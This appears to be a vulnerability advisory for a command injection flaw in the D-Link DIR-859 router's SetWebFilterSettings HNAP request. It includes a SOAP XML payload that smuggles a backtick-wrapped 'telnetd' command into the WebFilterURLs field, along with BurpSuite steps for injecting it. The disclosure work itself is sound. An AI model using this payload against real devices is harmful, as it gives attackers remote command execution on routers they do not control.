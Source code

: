 # DIR-859 SetWebFilterSettings CMD Injection
Vulnerability for D-Link Router

Product: D-Link DIR-859  (Refer: http://www.dlink.com.cn/home/product?id=2960)

Version: The latest firmware -- 1.06B01 (Download link: https://support.dlink.com/productinfo.aspx?m=DIR-859)

![image](3.PNG)

Vulnerability Type: Command Injection

Author: David Chen

Institution: Technology Research Institute of Legendsec at Qi'anxin Group

Vulnerability description
-------------------------
An issue was discovered on D-Link DIR-859 devices with firmware through 1.06B01. A command Injection vulnerability allows attackers to execute arbitrary OS commands via shell metacharacters in a crafted /HNAP1 request. This occurs when the SetWebFilterSettings function calls the system function with an untrusted input parameter named WebFilterURLs. Consequently, an attacker can execute any command remotely when they control this input. The details are as below:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetWebFilterSettings>
 <WebFilterMethod>DENY</WebFilterMethod>
 <NumberOfEntry>2</NumberOfEntry>
 <WebFilterURLs>
  <string>www.baidu.com</string>
 <string>www.shohu.com`telnetd`</string></WebFilterURLs>
</SetWebFilterSettings>
</soap:Body>
</soap:Envelope>
```

The "WebFilterURLs" parameter is a string formed as bleow:

```xml
<string>www.baidu.com</string>
<string>www.sohu.com`telnetd`</string>
```
So if someone can POST data like this, they will execute command "telnetd" at the router.

POC
-------------------------

Step1: Attacker need to call "SetWebFilterSettings" fuction that setting "WebFilterURLs" value, so to add URLs at the web page as below:

![image](5.jpg)


Step2: To modify the "WebFilterURLs" value, Attacker need to intercpet the POST action at BurpSuite after they type "Save" button, and insert command "telnetd" to the parameter as below:

![image](1.png)

Step3: After sending POST packet as above, this action can result in a RCE that executes a "telnetd" command at router as below:

![image](4.png)

After that, the command has already been added to the URLs:

![image](2.png)

P.S. Given the vendor's security, we only provide parts of this exploit.
